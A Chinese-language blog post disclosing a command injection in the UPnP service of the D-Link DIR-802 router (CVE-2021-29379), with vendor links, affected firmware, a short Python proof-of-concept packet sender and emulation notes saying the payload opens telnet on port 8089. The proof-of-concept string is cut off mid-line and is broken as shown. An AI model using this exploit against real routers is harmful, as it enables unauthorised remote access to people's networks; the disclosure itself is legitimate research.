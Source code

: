 ```yaml
---
title: DIR-802 OS Command Injection
date: 2021-03-02 13:36:32
tags:
- D-LINK
- UPnP
- 固件模拟
categories:
- IOT
description: 提交个漏洞
---
```

### D-LINK DIR-802 命令注入漏洞
> by Cool
#### 漏洞已提交厂商
https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10206
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29379
#### 漏洞类型
CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')

#### 受影响设备及软件版本
DIR-802 hardware revision Ax before v1.00b05
https://pmdap.dlink.com.tw/PMD/GetAgileFile?itemNumber=FIR1300450&fileName=DIR802_FW100b05.zip&fileSize=6163759.0;

#### 漏洞概要
DIR-802中存在一个命令注入漏洞，攻击者可以通过精心制作的M-SEARCH数据包向UPnP注入任意命令。

#### 漏洞详情
与CVE-2020-15893相似，在固件版本v-1.00b05之前的D-Link DIR-802 A1上发现了一个问题。默认情况下，端口1900上启用了通用即插即用（UPnP）。攻击者可以通过将有效负载注入SSDP M-SEARCH发现数据包的“搜索目标”（ST）字段来执行命令注入。

#### POC
```python
# coding: utf-8
import socket
import struct
buf = 'M-SEARCH * HTTP/1.1\r\nHOST:192.168.0.1:1900\r\nST:urn:schemas-upnp-org:service
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect(("192.168.0.1", 1900))
s.send(buf)
s.close()
```

#### 漏洞复现
使用firmadyne进行固件模拟，运行UPnP服务
<img src="https://res.cloudinary.com/dozyfkbg3/image/upload/v1614665628/cve/carbon.png">

攻击者可以是连接到路由器局域网内并且能够向UPnP端口发送请求的任何人。可以通过编写简单的python脚本将精心制作的数据包发送到特定的upnp端口，该脚本随后将作为精心制作的请求的一部分执行提供的命令。共享的POC将打开端口8089上的telnet服务。
<img src="https://res.cloudinary.com/dozyfkbg3/image/upload/v1614665899/cve/carbon_1.png">
